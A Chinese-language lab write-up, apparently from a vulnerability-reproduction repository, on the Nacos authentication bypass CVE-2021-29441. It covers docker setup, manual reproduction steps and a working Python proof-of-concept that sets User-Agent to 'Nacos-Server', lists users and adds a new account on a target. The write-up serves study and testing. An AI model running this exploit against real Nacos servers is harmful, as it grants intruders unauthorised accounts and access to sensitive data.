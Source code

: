 # Nacos 认证绕过漏洞 CVE-2021-29441

## 漏洞描述

Nacos 是阿里巴巴推出来的一个新开源项目，是一个更易于构建云原生应用的动态服务发现、配置管理和服务管理平台。致力于帮助发现、配置和管理微服务。Nacos 提供了一组简单易用的特性集，可以快速实现动态服务发现、服务配置、服务元数据及流量管理。

该漏洞发生在nacos在进行认证授权操作时，会判断请求的user-agent是否为”Nacos-Server”，如果是的话则不进行任何认证。开发者原意是用来处理一些服务端对服务端的请求。但是由于配置的过于简单，并且将协商好的user-agent设置为Nacos-Server，直接硬编码在了代码里，导致了漏洞的出现。并且利用这个未授权漏洞，攻击者可以获取到用户名密码等敏感信息。

参考链接：

- https://github.com/advisories/GHSA-36hp-jr8h-556f

## 环境搭建

运行漏洞环境：

```
docker-compose up -d
```

环境运行后，会开放3306、8848、9848、9555端口，在本次漏洞利用中，我们只需要用到8848端口，即web访问端口。

执行漏洞验证过程时，请先访问8848端口，确认开放，某些情况下nacos服务会启动失败（无法连接数据库导致），可以重启nacos服务或者重启所有服务。

```
docker-compose restart nacos
```

## 漏洞复现

漏洞利用过程如下：

1. 修改User-Agent的值为Nacos-Server到请求包中
2. 访问`http://target:8848/nacos/v1/auth/users?pageNo=1&pageSize=9`查看状态码是否为200，且内容中是否包含`pageItems`
3. 使用POST方式访问`http://target:8848/nacos/v1/auth/users?username=vulhub&password=vulhub`添加一个新用户
4. 访问`http://target:8848/nacos/v1/auth/users?pageNo=1&pageSize=9`获取已有的用户列表
5. 访问`http://target:8848/nacos/`，使用添加的新用户(vulhub/vulhub)进行登录

**检测漏洞是否存在**

添加Header头后访问`http://target:8848/nacos/v1/auth/users?pageNo=1&pageSize=9`可以看到返回值为200，且内容中是否包含`pageItems`。

![image-20220226230032045](images/202202262300141.png)

**添加新用户**

添加Header头后使用`POST`方式请求`http://target:8848/nacos/v1/auth/users?username=test&password=test`添加一个新用户，账号密码都为`test`。

![image-20220226230105927](images/202202262301006.png)

**使用新建的账号进行登录**

使用账号密码`test/test`登录。

![image-20220226230250829](images/202202262302898.png)

## 漏洞POC

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
import sys

import requests

headers = {
    "User-Agent": "Nacos-Server"
}


def check(target):
    endpoint = "/nacos/v1/auth/users?pageNo=1&pageSize=9"
    r = requests.get(target.strip("/") + endpoint, headers=headers)
    if r.status_code == 200 and "pageItems" in r.text:
        print target + " has vulnerabilities"
        return True
    print target + "has not vulnerabilities"
    return False


def add_user(target):
    add_user_endpoint = "/nacos/v1/auth/users?username=vulhub&password=vulhub"

    r = requests.post(target.strip("/") + add_user_endpoint, headers=headers)
    if r.status_code == 200 and "create user ok" in r.text:
        print "Add User Success"
        print "New User Info: vulhub/vulhub"
        print "Nacos Login Endpoint: {}/nacos/".format(target)
        exit(1)

    print "Add User Failed"


if __name__ == '__main__':
    if len(sys.argv) != 2:
        print "Please specify the target: python poc.py http://xxxxx:8848"
        exit(-1)
    if check(sys.argv[1]):
        add_user(sys.argv[1])
```

```
python poc.py http://target:8848
```

![image-20220226225534784](images/202202262255839.png)
